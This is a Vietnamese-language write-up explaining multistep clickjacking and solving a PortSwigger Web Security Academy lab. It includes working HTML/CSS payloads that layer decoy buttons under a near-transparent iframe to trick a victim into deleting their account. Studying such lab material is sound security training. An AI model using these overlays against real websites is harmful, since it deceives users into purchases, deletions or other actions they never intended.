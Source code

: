 # Multistep clickjacking

Tấn công **Multistep clickjacking** - Clickjacking đa bước xảy ra khi kẻ tấn công cần thực hiện nhiều thao tác để thao túng đầu vào trên một trang web mục tiêu. Ví dụ, kẻ tấn công có thể muốn lừa người dùng mua hàng trên một trang bán lẻ. Trong trường hợp này, các bước có thể bao gồm:

1. **Thêm sản phẩm vào giỏ hàng**: Người dùng bị lừa click chuột để thêm sản phẩm vào giỏ hàng.

2. **Xác nhận đơn hàng**: Tiếp tục dụ người dùng click chuột để đặt hàng hoặc thanh toán. 

**Cách thực hiện tấn công**

- **Nhiều iframe hoặc div**: Kẻ tấn công sử dụng nhiều iframe hoặc các vùng phân chia (div) khác nhau, mỗi vùng đại diện cho một bước cụ thể trong quy trình (ví dụ: thêm sản phẩm, xác nhận thanh toán).

- **Căn chỉnh chính xác**: Kẻ tấn công phải căn chỉnh các phần tử này một cách chính xác để người dùng không nhận ra họ đang tương tác với các trang web mục tiêu thay vì giao diện thật.

- **Ẩn iframe**: Tương tự các kỹ thuật clickjacking khác, kẻ tấn công làm iframe trong suốt hoặc che khuất nội dung thật để đánh lừa người dùng.

**Tóm lại**

Tấn công clickjacking đa bước yêu cầu kẻ tấn công cẩn thận thiết kế giao diện và thao tác chính xác để lừa người dùng thực hiện các hành động liên tiếp. Tuy nhiên, đây là một phương pháp phức tạp và đòi hỏi sự tỉ mỉ cao để đạt hiệu quả.

# Lab: Multistep clickjacking
![img](25)

### Web page
![img](26)

### Solution

Login vào account được cấp: 

![img](27)

Đối với bài lab này, khi click vào button Delete account trên endpoint /my-account, endpoint /delete được hiển thị để confirm: 

![img](28)

--> Payload sẽ cần 2 thẻ div cho 2 button, có dạng như sau:

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:$top_value1;
            left:$side_value1;
            z-index: 1;
        }
    .secondClick {
            top:$top_value2;
            left:$side_value2;
        }
    </style>
    <div class="firstClick">Test me first</div>
    <div class="secondClick">Test me next</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

Chỉnh sửa payload: 

    <style>
        iframe {
            position:relative;
            width:1000px;
            height:600px;
            opacity: 0.1;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:515px;
            left:60px;
            z-index: 1;
        }
    .secondClick {
            top:400px;
            left:100px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a3f00c4043dd6d983ea335b00830069.web-security-academy.net/my-account"></iframe>

Copy payload vào phần body trong exploit server, store và view exploit: 

![img](29)

![img](30)

Chỉnh sửa lại button Click me next: 

![img](31)

Payload cuối cùng: 

    <style>
        iframe {
            position:relative;
            width:1000px;
            height:600px;
            opacity: 0.1;
            z-index: 2;
        }
        .firstClick, .secondClick {
            position:absolute;
            top:515px;
            left:55px;
            z-index: 1;
        }
        .secondClick {
            top:310px;
            left:170px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a8a008004a0672080f10dcd0069006f.web-security-academy.net/my-account"></iframe>

Store và Deliver exploit to victim.

Solved the lab!

![img](32)









